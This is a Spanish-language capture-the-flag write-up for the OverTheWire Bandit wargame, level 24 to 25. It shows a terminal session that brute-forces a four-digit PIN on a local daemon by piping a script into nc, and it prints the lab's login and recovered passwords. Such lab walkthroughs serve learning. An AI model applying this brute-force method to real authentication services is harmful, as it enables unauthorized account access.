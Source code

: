 ## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time
## Datos de acceso al nivel
**Usuario:** bandit24 
**Contraseña:** VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
**Servidor:** bandit.labs.overthewire.org
```
ssh bandit@bandit.labs.overthewire.org -p 2220
```
## Solución

```
bandit24@bandit:~$ cd /tmp
bandit24@bandit:/tmp$ mkdir bandit24123
bandit24@bandit:/tmp$ cd bandit24123
bandit24@bandit:/tmp/bandit24123$ nano prueba1.sh
Unable to create directory /home/bandit24/.local/share/nano/: No such file or directory


Unable to create directory /home/bandit24/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit24@bandit:/tmp/bandit24123$ chmod u+x prueba1.sh
bandit24@bandit:/tmp/bandit24123$ ./prueba1.sh | nc localhost 30002 | grep -v "Wrong"
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
^C
bandit24@bandit:/tmp/bandit24123$ s
s: command not found
bandit24@bandit:/tmp/bandit24123$ ls
prueba1.sh
bandit24@bandit:/tmp/bandit24123$ nano prueba1.sh
Unable to create directory /home/bandit24/.local/share/nano/: No such file or directory


Unable to create directory /home/bandit24/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit24@bandit:/tmp/bandit24123$ ./prueba1.sh | nc localhost 30002 | grep -v "Wrong"
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.

```
## Notas adicionales
## Referencias